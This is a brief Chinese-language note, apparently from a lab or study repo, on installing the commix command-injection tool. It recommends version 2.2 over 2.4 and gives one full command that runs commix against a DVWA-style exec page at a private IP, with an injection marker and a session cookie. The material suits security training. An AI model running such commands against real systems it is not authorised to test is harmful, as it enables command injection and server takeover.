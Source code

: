 Command Injection
=
安装方法
-
在https://github.com/commixproject/commix/releases下下载commix压缩包，直接解压即可(由于新版v2.4出现了问题，v2.2经尝试可行)

- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
